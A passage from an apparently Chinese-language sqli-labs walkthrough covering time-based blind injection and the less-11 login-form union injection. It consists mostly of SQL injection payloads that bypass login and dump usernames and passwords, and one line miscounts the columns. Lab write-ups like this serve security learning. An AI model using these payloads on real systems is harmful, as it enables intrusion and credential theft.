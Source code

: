   

##### 注入步骤

- 爆数据库：`payload：1'and if(length(database())={},sleep(2))#`判断数据库的长度，正常回显，那么就是数据库长度正常

  `payload：1' and if(ascii(substr(database(),1,1))<113,sleep(2),0) #`判断数据库的第一个字母，回显正常就是正确的，不断尝试。(第一个1代表第几个字母)

- 爆数据表：`payload：1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))<113,sleep(2),0) #`操作同爆库名一样，需要不断尝试（先使用大于小于来大致判断位置）
- 爆字段：`payload：1' and if(ascii(substr((select column_name from information_schema.columns where table_name='表名' limit 0,1),1,1))<113,sleep(2),0) #`（先使用大于小于来大致判断位置）
- 爆数据：`payload：1' and if(ascii(substr((select concat(列1,0x3a,列2..) from 表名 limit 0,1),1,1))<113,sleep(2),0) #`

## less-11

##### 注入类型：

登录框字符串型回显注入

##### 输入点：

输入username：admin'   password：1回显报错

![image-20201109184425826](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114657.png)

##### 输出点：

输入username：admin'#or 1=1(万能密码)   password：1(密码随意)回显正常

![image-20201109184548271](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114658.png)

所以可以在username输入框中使用`’`来闭合语句，再使用union来联合查询

##### 注入方式

union联合查询

##### 注入步骤

- 判断列数`payload:admin' order by 2#` 3的时候页面回显报错，所以判断出列数为3列
- 联合查询，判断各列输出的位置`payload:1admin' union select 1,2#`
- 获取数据库`payload:1admin' union select 1,database()#`
- 爆数据表`payload:1admin' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#`
- 爆users表的数据字段`payload：1admin' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#`
- 在爆出的字段中里面看到了password和username，于是爆数据`1admin' union select 1,group_concat(username,'~',password) from users#`username和password中间使用~来分隔

## less-12

##### 注入类型：
